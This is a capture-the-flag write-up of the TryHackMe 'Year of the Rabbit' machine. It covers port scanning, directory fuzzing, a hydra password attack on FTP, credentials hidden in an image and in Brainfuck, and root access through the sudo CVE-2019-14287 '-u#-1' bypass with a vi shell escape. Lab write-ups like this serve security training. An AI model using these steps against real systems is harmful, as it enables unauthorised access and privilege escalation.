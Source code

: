 ```yaml
---
date: 2020-05-22 06:14:32
layout: post
title: "YearoftheRabbit"
subtitle: A machine full of rabbit holes.
description: Medium Machine from Tryhackme
image: /writeup/assets/img/yearoftherabbit/year.png
optimized_image:
category: tryhackme
tags: medium tryhackme
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/yearoftherabbit">Link</a> to the machine on Tryhackme.

 Staring with nmap scan to look for open ports,
 ```bash
$ nmap -T4 -p- -A 10.10.45.92
 Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-16 00:38 IST
Nmap scan report for 10.10.45.92
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.13 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   187.89 ms 10.8.0.1
2   212.33 ms 10.10.45.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.06 seconds
```

There are 3 ports open 21,22,80.
Since ftp port was open tried to login anonymously,but as shown by nmap scan anonymous login was not allowed.

Moving on to the second interseting port , i.e 80.

The homepage of website hosted at port 80 contains default apache2 page.
Tried to search for directories and pages available on the website using ffuf.
```bash
ffuf -w wordlist -u http://10.10.45.92/FUZZ -e .php,.html,.txt,.zip
```
![placeholder](/writeup/assets/img/yearoftherabbit/ffuf.png "ffuf")

This shows that there is a assets directory.
Visiting the directory, I found a style.css file and a video file.
The style.css file pointed me towards **/sup3r_s3cr3t_fl4g.php**
![placeholder](/writeup/assets/img/yearoftherabbit/style.css "style")

Visited http://10.10.45.92/sup3r_s3cr3t_fl4g.php. A popup told me to switch off the javascript. If I do not switch off js then I was redirected to a youtube video.
After switching off the javascript the video that was inside assets is played on the page.

Listening the video there is voice of man's *burp*.This voice is not present in original video at youtube.

Since the man was burping. So I thought to open Burpsuite and see the requests.

Looking at the requests made by browser when visiting /sup3r_s3cr3t_fl4g.php, I found one more page 
![placeholder](/writeup/assets/img/yearoftherabbit/burp.png "burp")

As visible in image the browser is requesting this address,
*http://10.10.45.92/intermediary.php?hidden_directory=/WExYY2Cv-qU*
Visiting the above URL , I was redirected to /sup3r_s3cr3t_fl4g.php.

I removed the hidden_directory parameter from the URL

*http://10.10.45.92/intermediary.php**

Accessing the above URL, this also redirected me.

As the URL contained the hidden_directory=/WExYY2Cv-qU. So I accessed the directory directly.
```URL
http://10.10.45.92/WExYY2Cv-qU
```
This directory contained an Image.
Downloading the image and using strings command on the image to extract any string in the image.
```bash
strings Hot_Babe.png
```
![placeholder](/writeup/assets/img/yearoftherabbit/ftp.png "ftp")

This gave a ftp username as ***ftpuser*** and some passwords.

Now to get the correct password, I used hydra to perform a wordlist attack.
```bash
hydra -l ftpuser -P passwords 10.10.45.92 ftp -V
```
![placeholder](/writeup/assets/img/yearoftherabbit/hydra.png "hydra")

This gave me the correct passsword for the ftpuser.

Logged in inside ftp using the above credentials.
```bash
ftp 10.10.45.92
```
Found a file named eli's_creds.txt inside the ftp server.

Downloaded the file and opening it presented me with a obfuscated text.
```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is brainfuck language.
Used <a href="https://www.dcode.fr/brainfuck-language">decode.fr></a> website to execute this code written in Brainfuck language.
![placeholder](/writeup/assets/img/yearoftherabbit/brainfuck.png "brainfuck")
This gave the SSH credentials for user eli.

Logging In through SSH , a message was displayed 
![placeholder](/writeup/assets/img/yearoftherabbit/ssh.png "ssh")

This message said something about s3cr3t hiding place.
I though maybe there is some directory named s3cr3t.So , executed this command to look for the directory named s3cr3t.
```bash
find / -name s3cr3t -type d 2>/dev/null
```
This gave a location where this directory was located, */usr/games/s3cr3t*
![placeholder](/writeup/assets/img/yearoftherabbit/secret.png "s3cr3t")

Inside the s3cr3t directory, there was a file named **.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!**

Inside the file found the password for gwendoline user.

Used the password to switch user.

Got the user flag.

Now to escalate privileges to root. I started with sudo -l which showed a interseting information.
![placeholder](/writeup/assets/img/yearoftherabbit/sudo.png "sudo")

The sudoers file had an entry for gwendline user which said that gwendoline user can run vi command to read user.txt as every other user except root.

But to escalate privileges I needed to run the vi command as root.

Looking for the version of sudo, I found it to be 1.8.10

Looking for any vulnerability in sudo. I found a vulnerablity related to *!root* statement of sudoers file.(***CVE-2019-14287***)

According to the vulnerability if user id "-1" or "4294967295" is used while executing the command that is listed to be not run as root in sudoers file. Then, it would run as root.

In simple language, if I run the command with user id -1 or 4294967295. Then I can run the vi as root.
```bash
sudo -u \#$((ffffffff)) /usr/bin/vi /home/gwendoline/user.txt
```

ffffffff is hexadecimal of 4294967295
This would also work
```bash
sudo -u#-1/usr/bin/vi /home/gwendoline/user.txt
```

This opened the vi with user.txt as root.

Time for GTFOBins

Used the command displayed on GTFOBins, to get the root shell.

```bash
:set shell=/bin/bash
:shell
```

Now I got the root shell.

Got the root flag.
  

